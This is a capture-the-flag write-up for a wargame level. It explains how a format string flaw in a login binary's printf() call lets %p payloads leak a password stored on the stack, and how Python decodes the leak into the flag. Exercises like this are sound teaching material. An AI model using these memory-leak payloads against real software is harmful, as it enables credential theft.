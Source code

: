 This time, the executable file is in ELF 64-bit format. Once launched, the program displays a prompt and asks the user to identify himself (username, then password). The program then displays (unless the credentials are good of course) a message in the format username + "does not have access!

By reconstructing the [source code](../source.c) with the help of gdb, we understand better how the program works and how we can exploit it. Three variables declared on the stack are relevant to us. The first one is intended to store the username of the user (at -0x70(%rbp)). The second one stores the content of the file `/home/users/level03/.pass` (at -0xa0(%rbp)). The third one stores the password given by the user (at -0x110(%rbp)).

If the password entered by the user is equal to the content of the .pass file, then a shell is launched. But then we wouldn't need to launch a shell anymore since we already know the password/flag.

The resolution of the exercise is elsewhere. Indeed, the content of the .pass file is stored on the stack. Moreover, a call to printf() is exploitable: On line 48 of the source.c file, the username variable is passed as the only argument to printf(). This allows us to perform a format string attack, inserting modifiers into the username variable which will be interpreted by printf(), and which will allow us to read the memory on the stack.

```
level02@OverRide:~$ ./level02 
===== [ Secure Access System v1.0 ] =====
/***************************************\
| You must login to access this system. |
\**************************************/
--[ Username: aaaaaaaa %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p
--[ Password: *****************************************
aaaaaaaa 0x7fffffffe4d0 (nil) 0x25 0x2a2a2a2a2a2a2a2a 0x2a2a2a2a2a2a2a2a 0x7fffffffe6c8 0x1f7ff9a08 0x7025207025207025 (nil) (nil) (nil) (nil) (nil) (nil) (nil) (nil) (nil) (nil) (nil) 0x100000000 (nil) 0x756e505234376848 0x45414a3561733951 0x377a7143574e6758 0x354a35686e475873 0x48336750664b394d (nil) 0x6161616161616161 0x2520702520702520 0x2070252070252070  does not have access!
```

We can easily identify the location of the username variable, with an offset of 28 (starting with "aaaaaaaa" <=> 0x6161616161616161). Since the pass variable is 40 bytes long, and located 48 bytes below the username variable (0xa0 - 0x70 <=> 160 - 112), it is identified from offset 22 to offset 26.

```
level02@OverRide:~$ ./level02 
===== [ Secure Access System v1.0 ] =====
/***************************************\
| You must login to access this system. |
\**************************************/
--[ Username: %22$p %23$p %24$p %25$p %26$p
--[ Password: ok
*****************************************
0x756e505234376848 0x45414a3561733951 0x377a7143574e6758 0x354a35686e475873 0x48336750664b394d does not have access!
```

From there, we still have to convert the hexadecimal into text, which can be done by removing the 0x prefixes, and by reversing the reading direction (since the data is recorded in little endian). This can be done easily with a few lines of python: 
```
level02@OverRide:~$ python
Python 2.7.3 (default, Jun 22 2015, 19:33:41) 
[GCC 4.6.3] on linux2
Type "help", "copyright", "credits" or "license" for more information.
>>> ba = bytearray.fromhex("48336750664b394d354a35686e475873377a7143574e675845414a3561733951756e505234376848")
>>> ba.reverse()
>>> print(ba)
Hh74RPnuQ9sa5JAEXgNWCqz7sXGnh5J5M9KfPg3H
```
We can now reach the next level with the command `su level03` and fill in the flag found as a password.